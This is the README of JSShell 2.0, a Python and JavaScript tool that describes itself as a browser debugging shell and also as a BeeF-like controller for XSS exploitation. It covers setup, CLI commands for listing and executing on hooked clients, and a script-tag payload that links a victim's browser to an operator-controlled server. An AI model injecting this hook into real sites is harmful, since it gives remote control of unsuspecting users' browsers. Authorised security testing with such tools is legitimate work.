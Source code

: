 # JSShell 2.0

[![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)
[![Generic badge](https://img.shields.io/badge/docker-friendly-blue.svg)](https://shields.io/)
[![Generic badge](https://img.shields.io/badge/python-3.6+-green.svg)](https://shields.io/)

An interactive multi-user web based javascript shell. It was initially created in order to debug remote 
esoteric browsers during experiments and research. This tool can be easily attached to XSS (Cross Site Scripting)
payload to achieve browser remote code execution (similar to the BeeF framework).

Version 2.0 is created entirely from scratch, introducing new exciting features, stability and maintainability.

###### Version: 2.0

## Author
[Daniel Abeles](https://twitter.com/Daniel_Abeles).

### Shell Video
[![asciicast](https://asciinema.org/a/217167.png)](https://asciinema.org/a/217167)

## Features
* Multi client support
* Cyclic DOM objects support
* Pre flight scripts
* Command Queue & Context
* Extensible with Plugins
* Injectable via `<script>` tags
* Dumping command output to file
* Shell pagination
* HTTPS support! [![Generic badge](https://img.shields.io/badge/new-green.svg)](https://shields.io/)


## Installation & Setup

### Config File
In the `resources` directory, update the `config.json` file with your desired configuration:
* Database host - if running with the `docker` deployment method, choose the database host as `db` 
(which is the internal host name).
* Return URL - the URL which the requests will follow. The `shell.js` file does some AJAX calls to register and poll
for new commands. Usually it will be `http[s]://{YOUR_SERVER_IP}:{PORT}`.
* Startup script - a script that runs automatically when the JSShell CLI client is spawned.
* Domain - if you desire to generate TLS certificates, this is the domain name the server will use.
* It is also possible to point at a remote database if desired.


### Let's Encrypt
Now JSShell supports TLS, which means you can now generate TLS certificates and feed them to the web server.
The web server will infer the domain name from the `config.json` file. In order to create the certificate,
use the `create_cert.py` script in the `scripts` folder:

```bash
$ cd scripts
$ python create_cert.py --domain <YOUR_DOMAIN> --email <YOUR_EMAIL>
```

##### the email field is optional.

Please note that the web server must be down in order for the script to function properly. At this point, we have
successfully generated our certificates! The sole modifications we need to do are:
* In the `config.json` file, change the schema of the `URL` field to `https`.
* In the `docker-compose.yml` file change the exposed port of the `web` container to `443`.


### Docker
This new version supports installing and running JSShell via `docker` and `docker-compose`. Now, to install and run the
entire JSShell framework, simply run:

```bash
$ ./scripts/start_docker_shell.sh
```

This will:
- Start and create the database in the background
- Start the web API server that handles incoming connections in the background
- Spawn a new instance of the `JSShell` command line interface container

### Regular
If you still want to use the old fashion method of installing, simply make sure you have a `MongoDB`
database up and running, and update the `config.json` file residing in the `resources` directory.

I recommend using a virtual environment with `pyenv`:
```bash
$ pyenv virtualenv -p python3.6 venv
$ pyenv activate venv
```

Or using `virtualenv`:

```bash 
$ virtualenv -p python3.6 venv
$ source venv/bin/activate
```

Then, install the requirements:
```bash
$ pip install -r requirements.txt
```

## Running
If you used the `docker` method, there's no need to run the following procedure.

### Web Server
Otherwise, once we have the database setup, we need to start the web API server. To do, run:
```bash
$ python manage.py web
```

This will create and run a web server that listens to incoming connections and serves our JSShell code. 

### Shell
Now to start the JSShell CLI, run the same script but now with the `shell` flag:
```bash
$ python manage.py shell
```

## Usage
After setup and running the required components, enter the `help` command to see the available commands:
```
     ╦╔═╗┌─┐┬ ┬┌─┐┬  ┬  
     ║╚═╗└─┐├─┤├┤ │  │  
    ╚╝╚═╝└─┘┴ ┴└─┘┴─┘┴─┘ 2.0     
        by @Daniel_Abeles
    
>> help

Documented commands (type help <topic>):

General Commands
--------------------------------------------------------------------------------
edit                Edit a file in a text editor
help                List available commands or provide detailed help for a specific command
history             View, run, edit, save, or clear previously entered commands
ipy                 Enter an interactive IPython shell
py                  Invoke Python command or shell
quit                Exit this application

Shell Based Operations
--------------------------------------------------------------------------------
back                Un-select the current selected client
clients             List and control the clients that have registered to our system
commands            Show the executed commands on the selected client
dump                Dumps a command to the disk
execute             Execute commands on the selected client
select              Select a client as the current client

>> 
```

## Flow
JSShell supports 2 methods of operation:
1. Injectable Shell (similar to BeeF framework)
2. Hosted Shell (for debugging)

### Injectable Shell
Similar to other XSS control frameworks (like BeeF), JSShell is capable of managing successful XSS exploitations.
In example, if you can inject a `script` tag, inject the following resource to your payload, and a new client will 
appear in your console: 

`<script src="http[s]://{YOUR_SERVER_IP}:{PORT}/content/js"></script>`

### Hosted Shell 
If you desire to debug exotic and esoteric browsers, you can simply navigate to `http[s]://{YOUR_SERVER_IP}:{PORT}/` and
a new client will pop up into your JSShell CLI client. Now it is debuggable via our JSShell console.

## Credits
[Canop](https://github.com/Canop) for [JSON.prune](https://github.com/Canop/JSON.prune/)


###### use it at your own responsibility and risk.
